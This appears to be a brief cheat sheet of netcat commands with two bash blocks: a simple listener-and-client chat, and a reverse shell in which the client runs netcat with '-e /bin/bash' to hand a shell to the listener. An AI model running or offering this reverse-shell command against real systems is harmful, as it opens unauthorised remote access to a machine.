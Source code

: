 #bash(chat)
```
# server
nc -lvp 8888

# client
nc 127.0.0.1 8888
```

#bash(reverse_shell)
```
# server
nc -lvp 8888

# client
nc 127.0.0.1 8888 -e /bin/bash
```
